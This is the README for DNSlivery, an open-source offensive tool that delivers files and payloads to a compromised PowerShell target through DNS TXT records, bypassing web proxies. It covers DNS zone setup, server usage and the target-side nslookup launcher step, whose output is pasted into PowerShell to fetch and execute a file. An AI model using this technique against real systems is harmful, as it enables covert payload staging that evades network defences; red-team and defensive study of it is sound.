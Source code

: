 ![python-3.7](https://img.shields.io/badge/python-3.7-blue.svg)
[![Known Vulnerabilities](https://snyk.io/test/github/no0be/DNSlivery/badge.svg?targetFile=requirements.txt)](https://snyk.io/test/github/no0be/DNSlivery?targetFile=requirements.txt)

# DNSlivery
Easy files and payloads delivery over DNS.

- [DNSlivery](#dnslivery)
- [Acknowledgments](#acknowledgments)
- [Description](#description)
  - [TL;DR](#tldr)
  - [What problem are you trying to solve?](#what-problem-are-you-trying-to-solve)
  - [How does it work?](#how-does-it-work)
  - [Requirements](#requirements)
- [Setup](#setup)
  - [DNS Zone](#dns-zone)
  - [DNSlivery](#dnslivery-1)
- [Usage](#usage)
  - [Server](#server)
  - [Target](#target)

# Acknowledgments
This project has been originally inspired by [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) and [Joff Thyer](https://twitter.com/joff_thyer)'s technical segment on the Paul's Security Weekly podcast #590 ([youtu.be/CP6cIwFJswQ](https://youtu.be/CP6cIwFJswQ)).

# Description
## TL;DR
DNSlivery allows to deliver files to a target using DNS as the transport protocol.

**Features**:
- allows to print, execute or save files to the target
- does not require any client on the target
- does not require a full-fledged DNS server

![demo-target.git](img/demo-target.gif)

## What problem are you trying to solve?
Easily deliver files and/or payloads to a compromised target where classic web delivery is not possible and **without the need for a dedicated client software**. This applies to restricted environments where outgoing web traffic is forbidden or simply inspected by a curious web proxy.

![web-delivery-blocked.png](img/web-delivery-blocked.png)

Even though more complete DNS tunneling tools already exist (s.a. [dnscat2](https://github.com/iagox86/dnscat2) and [iodine](https://code.kryo.se/iodine/)), they all require to run a dedicated client on the target. The problem is that there is probably no other way then DNS to deliver the client in such restricted environments. In other words, building a DNS communication channel with these tools require to already have a DNS communication channel.

In comparison, DNSlivery only provides one-way communication from your server to the target but does not require any dedicated client to do so. Thus, if you need to build a reliable two-way communication channel over DNS, use DNSlivery to deliver the client of a more advanced DNS tunneling tool to your target.

## How does it work?
Just like most DNS tunneling tools, DNSlivery uses `TXT` records to store the content of files in their base64 representation. However, it does not require to setup a full-fledged DNS server to work. Instead, it uses the [scapy](https://scapy.net/) library to listen for incoming DNS packets and craft the desired response. 

![network-process.png](img/network-process.png)

As most files do not fit in a single `TXT` record, DNSlivery will create multiple ordered records containing base64 chunks of the file. As an example, the above diagram illustrates the delivery of the 42<sup>nd</sup> chunk of the file named `file`.

In order to retrieve all base64 chunks and put them back together without the need for a dedicated client on the target, DNSlivery will generate for every file:

- a simple cleartext launcher
- a reliable base64 encoded stager

![two-stages-delivery.png](img/two-stages-delivery.png)

This two-stages delivery process is required to add features to the stager (s.a. handling lost DNS responses) that would otherwise not fit in a single `TXT` record.

### Note on target compatibility
Currently, only PowerShell targets are supported. However, DNSlivery could be improved to support additional targets such as bash or python. Please let me know [@no0be](https://twitter.com/no0be) if this is a feature that you would like to see being implemented.

## Requirements
DNSlivery does not require to build a complex server infrastructure. In fact, there are only two simple requirements: 

- be able to create a `NS` record in your public DNS zone
- have a Linux server capable of receiving `udp/53` traffic from the Internet

# Setup
## DNS Zone
The first step is to delegate a sub-domain to the server that will run DNSlivery by creating a new `NS` record in your domain. As an example, I created the following record to delegate the sub-domain `dnsd.no0.be` to the server at `vps.no0.be`.

```
dnsd    IN  NS vps.no0.be.
```

If your zone is managed by a third-party provider, refer to their documentation to create the `NS` record.

## DNSlivery
The only requirements to run DNSlivery are `python3` and its `scapy` library.
```bash
git clone https://github.com/no0be/DNSlivery.git && cd DNSlivery
pip install -r requirements.txt
```

# Usage
## Server
DNSlivery will serve all files of a given directory (`pwd` by default) and needs to be **run with root privileges** to listen for incoming `udp/53` packets.

```
usage: dnslivery.py [-h] [-p PATH] [-s SIZE] [-v] interface domain nameserver

DNSlivery - Easy files and payloads delivery over DNS

positional arguments:
  interface             interface to listen to DNS traffic
  domain                FQDN name of the DNS zone
  nameserver            FQDN name of the server running DNSlivery

optional arguments:
  -h, --help            show this help message and exit
  -p PATH, --path PATH  path of directory to serve over DNS (default: pwd)
  -s SIZE, --size SIZE  size in bytes of base64 chunks (default: 255)
  -v, --verbose         increase verbosity
```

**Example**: 
```
$ sudo python3 dnslivery.py eth0 dnsd.no0.be vps.no0.be -p /tmp/dns-delivery

DNSlivery - Easy files and payloads delivery over DNS

[*] File "file" ready for delivery at file.dnsd.no0.be (7 chunks)
[*] Listening for DNS queries...
```

### Note on filename normalization
As the charset allowed for domain names is much more restrictive than for UNIX filenames (per [RFC1035](https://tools.ietf.org/html/rfc1035#section-2.3.1)), DNSlivery will perform normalization when required.

**Example**:
```
[*] File "My Awesome Powershell Script ;).ps1" ready for delivery at my-awesome-powershell-script----ps1.dnsd.no0.be (1891 chunks)
```

**Be aware that the current normalization code is not perfect as it does not take overlapping filenames or size limit into account.**

## Target
On the target, start by **retrieving the launcher** of the desired file by requesting its dedicated `TXT` record. The following three launchers are supported:

| Action  | Launcher                    | Description                                           |
| ------- | --------------------------- | ----------------------------------------------------- |
| Print   | `[filename].print.[domain]` | (**Default**) Print the delivered file to the console |
| Execute | `[filename].exec.[domain]`  | Execute the delivered file (useful for scripts)       |
| Save    | `[filename].save.[domain]`  | Save the delivered file to disk (useful for binaries) |

```cmd
nslookup -type=txt [filename].[stager].[domain]
```

Then, simply **copy and paste the launcher quoted in the DNS response to a PowerShell console** to retrieve the file on the target.

**Example**:

![demo-target.git](img/demo-target.gif)